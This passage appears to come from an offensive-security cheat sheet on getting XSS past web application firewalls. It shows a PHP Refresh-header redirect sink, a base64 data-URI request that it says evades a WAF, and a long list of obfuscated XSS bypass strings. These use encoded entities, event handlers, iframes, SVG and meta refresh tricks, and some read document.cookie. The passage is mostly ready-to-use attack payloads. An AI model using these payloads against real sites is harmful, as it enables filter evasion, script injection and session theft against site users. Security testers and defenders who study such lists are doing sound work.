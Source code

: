 As well as:

```js
...
header('Refresh: 0; URL='.$_GET['param']);
...
```

This request will not pass through the WAF:

```html
/?param=<javascript:alert(document.cookie>)
```

This request will pass through the WAF and an XSS attack will be conducted in certain browsers:

```html
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### WAF ByPass Strings for XSS


- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`

 On Mouse Over​:

- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `
